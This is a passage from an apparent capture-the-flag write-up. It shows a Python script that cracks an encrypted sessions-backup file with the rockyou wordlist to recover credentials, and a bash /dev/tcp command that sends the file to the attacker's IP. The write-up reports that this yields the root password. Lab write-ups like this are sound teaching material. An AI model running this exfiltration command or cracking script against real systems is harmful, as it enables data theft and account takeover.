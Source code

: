 ```python
        )
        key = kdf.derive(passphrase.encode())

        # Create the cipher and decrypt the data
        cipher = Cipher(algorithms.TripleDES(key), modes.CBC(iv), backend=default_backend())
        decryptor = cipher.decryptor()
        
        decrypted_data = decryptor.update(encrypted_data) + decryptor.finalize()

        data = ''.join(chr(c) for c in decrypted_data if chr(c).isascii())
        return data

    except Exception as e:
        print(f'Error: {e}')


with open('./sessions-backup.dat') as f:
    cipher = f.read()

with open('/usr/share/wordlists/rockyou.txt') as passwords:
    for i, password in enumerate(passwords):
        password = password.strip()
        decrypted = decrypt(password, cipher)
        print(f'[{i}] {password=}', end='\r')
        if 'Credentials' in decrypted:
            print('\r', i, password)
            print()
            print(decrypted)
            break
```

Copying the `sessions-backup.dat` file to our machine using this simple trick.  

```bash
cat sessions-backup.dat >& /dev/tcp/10.10.16.57/5555 0>&1
```

Using the script to decrypt the session and extract the information.  

```bash
python3 solar.py
```

We get the `root` password. 

<br/> 
<img src="/img/instant_screenshots/Pasted image 20241013203908.png" alt="1" style="width:700px; height:auto;">
<br/>
